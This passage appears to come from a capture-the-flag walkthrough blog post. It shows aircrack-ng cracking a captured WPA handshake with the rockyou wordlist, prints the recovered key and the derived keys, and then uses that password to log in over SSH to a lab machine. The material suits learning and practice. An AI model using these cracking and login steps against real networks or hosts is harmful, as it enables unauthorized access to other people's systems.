 <p>Now we have to crack another password, this time using <b>aircrack-ng</b> tool. I was running some problems, because aircrack could not recognize <b>.cap</b> file but after a little bit of googling I've found that it was due to downloading files in <b>ASCII</b> mode, not in <b>BINARY</b>. </p>


{% highlight bash %}
root@kali:~/Documents# aircrack-ng eg-01.cap -w /usr/share/wordlists/rockyou.txt
[00:27:47] 1699628 keys tested (765.84 k/s))


        KEY FOUND! [ triscuit* ]


Master Key     : 9E 8B 4F E6 CC 5E E2 4C 46 84 D2 AF 59 4B 21 6D
    B5 3B 52 84 04 9D D8 D8 83 67 AF 43 DC 60 CE 92

Transient Key  : 7A FA 82 59 5A 9A 23 6E 8C FB 1D 4B 4D 47 BE 13
    D7 AC AC 4C 81 0F B5 A2 EE 2D 9F CC 8F 05 D2 82
    BF F4 4E AE 4E C9 ED EA 31 37 1E E7 29 10 13 92
    BB 87 8A AE 70 95 F8 62 20 B5 2B 53 8D 0C 5C DC

EAPOL HMAC     : 86 63 53 4B 77 52 82 0C 73 4A FA CA 19 79 05 33
root@kali:~/Documents#

{% endhighlight %}

<p>Now it's working. We also have a password, with which we can log to the <b>ssh</b> service. </p>

{% highlight bash %}
root@kali:~# ssh -p 1974 eric@10.0.2.4
eric@10.0.2.4's password:
Welcome to Ubuntu 16.04.1 LTS (GNU/Linux 4.4.0-66-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

110 packages can be updated.
0 updates are security updates.


Last login: Sat Aug 20 22:28:28 2016 from 192.168.3.101
eric@BM:~$ ls -la
total 532
drwxr-xr-x 3 eric eric   4096 Aug 23  2016 .
drwxr-xr-x 6 root root   4096 Aug 20  2016 ..
-rw-r--r-- 1 eric eric    220 Aug 20  2016 .bash_logout
-rw-r--r-- 1 eric eric   3771 Aug 20  2016 .bashrc
drwx------ 2 eric eric   4096 Aug 20  2016 .cache
-rw-r--r-- 1 root root 451085 Aug  7  2016 eric-tongue-animated.gif
-rw-r--r-- 1 root root  60710 Aug  7  2016 eric-unimpressed.jpg
-rw-r--r-- 1 eric eric    655 Aug 20  2016 .profile
-rw-r--r-- 1 root root    115 Aug 20  2016 why-1974.txt
eric@BM:~$ cat why-1974.txt
Why 1974?  Because: http://www.metacafe.com/watch/an-VB9KuJtnh4bn/billy_madison_1995_billy_hangs_out_with_friends/

{% endhighlight %}
